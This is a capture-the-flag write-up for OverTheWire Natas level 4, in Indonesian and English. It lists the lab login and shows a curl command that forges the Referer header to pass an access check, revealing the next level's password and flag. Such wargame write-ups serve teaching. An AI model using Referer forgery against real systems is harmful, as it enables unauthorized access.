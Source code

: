 ```yaml
---
layout: level
level: 4
previous: ./level 03.html
next: ./level 05.html
---
```


# soal
Username: natas4
URL:      http://natas4.natas.labs.overthewire.org

# solve
- use cred natas4:QryZXc2e0zahULdHrtHxzyYkj59kUxLQ
- use the curl, burp suite, third party extension (header editor)
  - and change the request header with 
  ```
  Referer: http://natas5.natas.labs.overthewire.org/
  # gunakan / akhir karena ketika saya coba tanpa / tidak bisa
  ```
- jika menggunakan curl
  ```bash
  curl http://natas4.natas.labs.overthewire.org -u natas4:QryZXc2e0zahULdHrtHxzyYkj59kUxLQ -H "Referer: http://natas5.natas.labs.overthewire.org/"
  # Access granted. The password for natas5 is 0n35PkggAPm2zbEpOU802c0x0Msn1ToK
  ```

## HTTP Referer
- Referer: <url>
- dalah salah satu header HTTP yang digunakan untuk memberi tahu server dari mana asal pengguna sebelum mengakses halaman tertentu. Fungsinya adalah untuk memberi konteks kepada server tentang halaman sebelumnya yang "mengacu" atau "merujuk" ke halaman saat ini.

# flag
0n35PkggAPm2zbEpOU802c0x0Msn1ToK